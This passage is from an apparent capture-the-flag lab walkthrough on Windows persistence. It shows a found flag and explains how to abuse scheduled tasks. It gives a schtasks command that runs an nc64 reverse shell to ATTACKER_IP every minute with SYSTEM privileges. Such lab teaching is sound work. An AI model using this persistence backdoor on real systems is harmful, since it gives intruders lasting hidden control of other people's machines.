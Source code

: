 
Insert flag8 here
*THM{IN_PLAIN_SIGHT}*

### Abusing Scheduled Tasks 

We can also use scheduled tasks to establish persistence if needed. There are several ways to schedule the execution of a payload in Windows systems. Let's look at some of them:

Task Scheduler

The most common way to schedule tasks is using the built-in Windows task scheduler. The task scheduler allows for granular control of when your task will start, allowing you to configure tasks that will activate at specific hours, repeat periodically or even trigger when specific system events occur. From the command line, you can use schtasks to interact with the task scheduler. A complete reference for the command can be found on Microsoft's website.

Let's create a task that runs a reverse shell every single minute. In a real-world scenario, you wouldn't want your payload to run so often, but we don't want to wait too long for this room:

```

Command Prompt

C:\> schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.

        


```

Note: Be sure to use THM-TaskBackdoor as the name of your task, or you won't get the flag.

The previous command will create a "THM-TaskBackdoor" task and execute an nc64 reverse shell back to the attacker. The /sc and /mo options indicate that the task should be run every single minute. The /ru option indicates that the task will run with SYSTEM privileges.

To check if our task was successfully created, we can use the following command:

```

Command Prompt

C:\> schtasks /query /tn thm-taskbackdoor

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
thm-taskbackdoor                         5/25/2022 8:08:00 AM   Ready

        


```
